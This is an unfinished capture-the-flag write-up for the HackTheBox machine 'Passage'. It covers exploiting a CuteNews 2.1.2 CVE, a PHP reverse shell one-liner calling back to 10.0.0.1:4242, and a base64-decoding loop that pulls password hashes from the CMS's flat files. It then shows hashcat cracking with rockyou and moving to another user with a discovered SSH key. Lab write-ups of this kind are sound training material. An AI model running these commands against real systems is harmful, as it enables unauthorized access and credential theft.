 ```yaml
---
description: https://app.hackthebox.com/machines/Passage
---
```


# 🚒 Passage

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We find 2 TCP ports open:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

On the web page we see the follwoing information ->

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Fail 2 ban is an anti brute force software:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So basically with a gobuster I got my IP banned so i'm going to be cautious when it comes to finding subdirectories

through enumeration, i find that it's CuteNews 2.1.2 running with a known CVE ->

{% embed url="https://www.exploit-db.com/exploits/48800" %}

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Very straightforward CVE

We see some PHP files&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So with a quick PHP reverse shell ->

```
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We get a more stable shell

after enumerating a bit, we find where is stored the flat files that are used by cuteCMS as a "database"

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so we see this is base64 encoded:

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After looking up a write-up to see how a pro would go quick to go through all of this, i found this crazy one-liner that got me thinking i should start learning those:

```
for f in *; do cat $f | grep -v 'php die'; echo; done | grep . | while read line; do echo $line | base64 -d; echo; done | grep '"pass"'
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**explanation:**

1.  **Loop Over Files**:

    ```sh
    for f in *; do
    ```

    This loop iterates over all files in the current directory (using `*` to match all filenames).
2.  **Process Each File**:

    ```sh
    cat $f | grep -v 'php die'; echo;
    ```

    For each file, it:

    * Uses `cat $f` to read the content of the file.
    * Pipes the content to `grep -v 'php die'`, which filters out any lines containing the string `'php die'`.
    * Uses `echo` to add a newline after processing each file.
3.  **Concatenate and Filter Non-Empty Lines**:

    ```sh
    done | grep . |
    ```

    After processing all files, `done` ends the loop. The output is then piped to `grep .`, which filters out any empty lines (only lines containing at least one character are kept).
4.  **Read and Decode Each Line**:

    ```sh
    while read line; do echo $line | base64 -d; echo; done |
    ```

    This `while` loop reads each non-empty line:

    * `read line` reads a line into the variable `line`.
    * `echo $line | base64 -d` decodes the line from base64 encoding.
    * `echo` adds a newline after each decoded line.

Since we looked at the home directory and saw a paul user, we could guess that this user is the pivoting path, so i added a grep "paul" to the oneliner as a part of contribution

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

took this hash and looked it up and saw it was mode 1400 on hashcat ->

```
hashcat -m 1400 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I could not change user with my low interaction shell so i did a tty upgrade ->

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and we connect&#x20;

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We quickly find an ssh authorization key:

<figure><img src="../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

We copy the id\_rsa key and connect to nadav user ->

<figure><img src="../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

We'll get root tomorrow&#x20;

